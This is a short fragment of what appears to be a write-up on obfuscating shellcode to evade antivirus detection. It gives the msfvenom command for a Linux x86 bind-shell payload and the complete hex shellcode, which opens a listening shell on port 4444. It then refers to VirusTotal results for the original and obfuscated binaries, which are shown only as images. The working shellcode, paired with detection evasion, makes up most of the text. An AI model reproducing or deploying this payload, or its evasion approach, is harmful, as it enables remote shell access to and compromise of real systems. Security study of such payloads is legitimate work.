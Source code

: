 <code class="language-plaintext highlighter-rouge">Msfvenom -p linux/x86/shell_bind_tcp</code>:

```bash
\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x5b\x5e\x52\x68\x02\x00\x11\x5c\x6a\x10\x51\x50\x89\xe1\x6a\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80

```

VirusTotal result of the original (unobfuscated) shellcode binary:

![Encoder](/assets/images/original_virustotal.jpg)

VirusTotal result of the obfuscated shellcode binary:

![Encoder](/assets/images/obfuscated_virustotal.jpg)
